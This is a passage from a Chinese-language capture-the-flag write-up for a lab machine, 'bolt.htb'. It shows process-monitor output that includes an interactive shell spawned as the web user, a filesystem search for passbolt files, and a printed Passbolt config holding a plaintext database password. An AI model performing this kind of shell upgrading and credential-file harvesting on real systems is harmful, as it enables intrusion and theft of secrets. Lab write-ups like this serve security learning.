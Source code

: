 ```
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=2351   | sh -c /bin/sh -c "cd "/tmp";./pspy64 > /tmp/pspy64.out;echo 50437e61;pwd;echo c6d24" 2>&1 [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=2189   | php-fpm: pool www                                                             [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=2187   | php-fpm: pool www                                                             [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=1904   | /usr/bin/python3 /usr/local/bin/gunicorn wsgi:app [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=1900   | /bin/bash [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=1899   | python3 -c import pty;pty.spawn("/bin/bash") [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=1856   | /bin/sh -i [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=1855   | python3 /tmp/a.py [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=1854   | /bin/sh -c python3 /tmp/a.py [0m
2022/01/30 04:30:01 [36;1mCMD: UID=129  PID=1782   | dovecot/auth [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=1390   | php-fpm: pool www                                                             [0m
2022/01/30 04:30:01 [36;1mCMD: UID=129  PID=1384   | dovecot/stats [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=1347   | gpg-agent --homedir /var/lib/passbolt/.gnupg --use-standard-socket --daemon [0m
2022/01/30 04:30:01 [31;1mCMD: UID=128  PID=1251   | qmgr -l -t unix -u [0m
2022/01/30 04:30:01 [31;1mCMD: UID=128  PID=1250   | pickup -l -t unix -u -c [0m
2022/01/30 04:30:01 [34;1mCMD: UID=0    PID=1249   | /usr/lib/postfix/sbin/master -w [0m
2022/01/30 04:30:01 [36;1mCMD: UID=33   PID=1016   | /usr/bin/python3 /usr/local/bin/gunicorn wsgi:app [0m
2022/01/30 04:30:01 [34;1mCMD: UID=0    PID=1      | /sbin/init splash [0m
```

注意到`gpg-agent --homedir /var/lib/passbolt/.gnupg --use-standard-socket --daemon`,好像是跟密钥管理有关的

`find /* | grep -i passbolt > /dev/shm/find`

主要有以下三个目录

```
/etc/passbolt/
/usr/share/php/passbolt/
/var/lib/passbolt/
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201301941995.png)

`/etc/passbolt/passbolt.php`

```php
<?php
return [
    'App' => [
        // A base URL to use for absolute links.
        // The url where the passbolt instance will be reachable to your end users.
        // This information is need to render images in emails for example
        'fullBaseUrl' => 'https://passbolt.bolt.htb',
    ],

    // Database configuration.
    'Datasources' => [
        'default' => [
            'host' => 'localhost',
            'port' => '3306',
            'username' => 'passbolt',
            'password' => 'rT2;jW7<eY8!dX8}pQ8%',
            'database' => 'passboltdb',
        ],
    ],

    // Email configuration.
```